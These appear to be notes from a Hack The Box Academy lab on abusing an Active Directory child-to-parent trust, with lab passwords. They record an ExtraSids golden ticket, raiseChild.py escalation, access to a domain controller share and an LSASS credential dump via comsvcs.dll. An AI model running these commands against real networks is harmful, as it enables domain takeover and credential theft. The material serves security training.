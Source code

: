 Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session

klist

Current LogonId is 0:0xc8e6a

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 12/6/2023 4:29:04 (local)
        End Time:   12/3/2033 4:29:04 (local)
        Renew Time: 12/3/2033 4:29:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 ->

ls \\academy-ea-dc01.inlanefreight.local\c$


    Directory: \\academy-ea-dc01.inlanefreight.local\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/31/2022  12:34 PM                Department Shares
d-----         4/7/2022   2:31 PM                ExtraSids
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---         4/9/2022   4:59 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----        3/31/2022  11:09 AM                User Shares
d-r---        10/6/2021  10:31 AM                Users
d-----        4/18/2022  11:37 AM                Windows
d-----        3/31/2022  11:12 AM                ZZZ_archive


type \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
f@ll1ng_l1k3_d0m1no3$


## LAB LINUX

ssh htb-student@$TARGET
HTB_@cademy_stdnt!

bross

raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
HTB_@cademy_stdnt_admin!

Get-DomainGroupMember -Identity "Enterprise Admins" -Recurse

tasklist /svc
lsass.exe                      680 Kdc, KeyIso, Netlogon, NTDS, SamSs          

rundll32 C:\windows\system32\comsvcs.dll, MiniDump 680 C:\lsass.dmp full
